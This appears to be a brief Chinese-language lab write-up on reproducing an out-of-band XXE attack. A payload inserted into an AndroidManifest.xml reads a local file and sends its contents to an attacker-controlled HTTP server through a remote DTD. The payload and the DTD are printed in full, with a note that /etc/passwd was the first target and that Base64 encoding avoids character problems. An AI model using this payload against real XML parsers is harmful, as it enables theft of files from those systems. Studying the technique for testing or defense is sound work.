首先使用宿主机模拟服务器，使用PHPStudy来模拟环境
在AndroidManifest.xml中插入下面这段代码，文件自定义，简单插入一句话，不要太独特就好，因为有些字符会造成访问出问题
<!DOCTYPE manifest [
<!ENTITY % file SYSTEM "file:///home/wnagzihxain/shentanli">
<!ENTITY % shentanli SYSTEM "http://192.168.121.1:5555/shentanli.dtd">
%shentanli;%send;]>
我们插入这句话
shentanli_is_safufu
因为一开始并不是很懂，所以学习了一波XML的知识
首先是定义了两个ENTITY，然后在后面进行调用，先调用shentanli，后面通过http://协议进行控制，表示访问这个URL，那么访问回来后，我们在服务器存放一个DTD文件，里面的代码和上面的类似，也是一个访问
<!ENTITY % all
"<!ENTITY % send SYSTEM 'http://192.168.121.1:5555/?%file;'>"
>
%all;
后面那个%file要结合最上面那个ENTITY来看，我们在最上面访问了shentanli之后，就接着调用了send，而send是在服务器上定义，那么等于再次访问这个URL，只不过后面要先通过file://协议先访问定义的文件，再将访问到的文件数据拼接到URL后面进行访问，那么我们在服务器上就可以看到访问记录
跑起来如下

一开始其实访问的是/etc/passwd，很尴尬的是一直没有出现访问，在李神探的提醒下，发现有些字符是没法利用成功的，需要先使用Base64编码再进行拼接访问
比如我们放一个逗号进去，会看到只请求了服务器的DTD文件后就没有然后了

最后，感谢李神探，我要去哄她睡觉觉了